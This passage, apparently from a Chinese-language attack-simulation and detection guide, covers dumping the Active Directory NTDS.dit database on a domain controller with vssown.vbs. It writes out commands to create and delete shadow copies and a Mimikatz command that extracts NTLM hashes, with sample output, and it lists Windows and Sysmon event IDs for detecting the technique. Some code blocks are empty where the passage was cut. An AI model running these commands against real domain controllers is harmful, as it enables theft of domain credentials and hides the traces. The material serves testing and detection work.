    ```cmd
   ```
   - 输出：`已复制 1 个文件。`
5. **删除卷影副本**：
   ```cmd
   cscript C:\Tools\vssown.vbs /delete
   ```
   - 输出：`[*] Attempting to delete shadow copies.`
6. **离线解析NTDS.dit**（可选）：
   - 使用Mimikatz：
     ```cmd
     mimikatz.exe "lsadump::lsa /ntdsfile:C:\Temp\ntds.dit" exit
     ```
     - 输出示例：
       ```
       * Username: Administrator
       * NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0
       ```

### 参考资源
- vssown.vbs：<https://raw.githubusercontent.com/borigue/ptscripts/master/windows/vssown.vbs>
- NTDS.dit提取：<https://xz.aliyun.com/t/2187>
- MITRE ATT&CK T1003.003：<https://attack.mitre.org/techniques/T1003/003/>

## 检测日志

### 数据来源
- **Windows安全日志**（域控制器）：
  - 事件ID4688：进程创建（cscript.exe）
  - 事件ID4904：安全事件源注册（VSSAudit）
  - 事件ID8222：卷影副本创建
  - 事件ID4905：安全事件源取消注册（VSSAudit）
- **Sysmon日志**：
  - 事件ID1：进程创建（cscript.exe、vssown.vbs）
  - 事件ID11：文件操作（ntds.dit复制）
- **文件系统**：
  - 监控`C:\Temp\`或`%temp%`的`ntds.dit`文件创建
- **网络流量**（可选）：
  - 捕获`ntds.dit`文件传输（SMB 445/TCP）


## 测试复现

### 环境配置
- 域控制器：Windows Server 2019（dc.abcc.org）
- 工具：vssown.vbs
- 用户：Administrator（Domain Admins成员）
- 日志：Sysmon（事件ID1、11）、Windows安全日志
- 路径：C:\Temp\

### 复现步骤
1. **启动VSS服务**：
   ```cmd
   cscript C:\Tools\vssown.vbs /start
   ```
   - 输出：`[*] Signal sent to start the VSS service.`
2. **创建卷影副本**：
   ```cmd
   cscript C:\Tools\vssown.vbs /create c
   ```
   - 输出：`[*] Attempting to create a shadow copy.`
3. **列出卷影副本**：
   ```cmd
   ```